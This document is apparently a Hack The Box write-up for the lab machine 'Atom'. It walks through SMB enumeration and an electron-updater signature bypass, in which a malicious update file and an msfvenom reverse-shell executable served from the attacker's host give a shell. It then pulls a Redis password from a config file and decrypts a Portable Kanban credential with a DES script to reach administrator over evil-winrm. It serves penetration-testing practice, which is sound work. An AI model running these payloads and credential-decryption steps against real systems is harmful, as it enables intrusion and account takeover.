 # [Atom](https://app.hackthebox.com/machines/atom)

```bash
nmap -p- --min-rate 10000  10.10.10.237 -Pn  
```

![Alt text](img/image.png)

After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,135,139,445,5985,6379 10.10.10.237 -Pn 
```

![Alt text](img/image-1.png)

Let's enumerate SMB shares via `smbmap` tool.

```bash
smbmap -H 10.10.10.237 -u guest
```

![Alt text](img/image-2.png)


I see that 'Software_Updates' share can be written by me.

I connect to this share via `smbclient` command.

```bash
smbclient -N //10.10.10.237/Software_Updates
```

From this share, I got pdf file.

![Alt text](img/image-3.png)


While reading this file, I just search publicly known exploits.

![Alt text](img/image-4.png)

I found this [article](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) to hack.

Let's start.

1.First we create our malicious executable which gives us reverse shell.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1337 -f exe > "r'shell.exe"
```

![Alt text](img/image-5.png)

2.Then, get SHA sum of this executable.

```bash
shasum -a 512 r\'shell.exe | cut -d " " -f1 | xxd -r -p | base64
```

![Alt text](img/image-6.png)


3.Let's create malicious .yml file.
```yml
version: 1.2.3
path: http://10.10.14.3:8080/r'shell.exe
sha512: EqlhcUSg5hwEqa3KoLnT/A5RktA3fLqmynHYHYKbiPB0qUYAkIbTOKTtfxAYgBXgMncjTDdQdaNrIHWrwCVFTQ==             
```

![Alt text](img/image-7.png)

4.Now we need to open HTTP server to serve our malicious executable file.
```bash
python3 -m http.server --bind 10.10.14.3 8080
```

![Alt text](img/image-8.png)

5.We need to upload our malicous .yml file into 'Software_Updates' share for 'client1' directory.

![Alt text](img/image-9.png)


I got reverse shell from port (1337).

![Alt text](img/image-10.png)

user.txt

![Alt text](img/image-11.png)

Now, I enumerate windows machine and I found a file called '**redis.windows-service.conf**' on directory called 'C:\Program Files\Redis'.

This file has sensitive credential means password of Redis database.

![Alt text](img/image-12.png)

password: kidvscat_yes_kidvscat


Let's login into Redis CLI.

```bash
redis-cli -h 10.10.10.237 -a kidvscat_yes_kidvscat
```

Then add below commands into redis cli.
```bash
keys *
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
```
![Alt text](img/image-13.png)


Encrypted Password is 'Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'.


I found 'Portable Kanban' on 'Downloads' directory of 'jason' user.

![Alt text](img/image-14.png)


Let's search publicly known exploit, and I found this.

![Alt text](img/image-15.png)

But I changed a python script from this situation to another one for just password.

```python
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b'7ly6UznJ')
    print('Decrypted Password : ' + key.decrypt(hash,initial=b'XuVUm5fR',padding=True).decode('utf-8'))
except:
    print('Wrong Hash')

```


I executed this script and it worked.

![Alt text](img/image-16.png)


Decrypted password is 'kidvscat_admin_@123'


Let's try to use this password for '**administrator**' user.

administrator: kidvscat_admin_@123


Now, I login into machine via above credetianls by using `evil-winrm` tool.

```bash
evil-winrm -u administrator -p 'kidvscat_admin_@123' -i 10.10.10.237
```

root.txt

![Alt text](img/image-17.png)